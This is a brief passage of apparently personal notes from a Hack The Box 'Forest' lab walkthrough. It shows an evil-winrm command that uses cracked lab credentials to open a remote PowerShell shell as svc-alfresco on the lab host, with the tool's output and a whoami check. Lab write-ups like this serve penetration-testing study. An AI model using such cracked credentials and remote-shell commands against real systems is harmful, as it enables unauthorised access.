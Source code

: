 # Using evil-winrm to get shell as svc-alfreso user
Using evil-winrm with cracked credentials in [[Forest_Retired/5 - Loot]] 
```powershell
❯ /home/kali/Downloads/evil-winrm/evil-winrm.rb  -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.0

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```
![[Pasted image 20210727160122.png]]
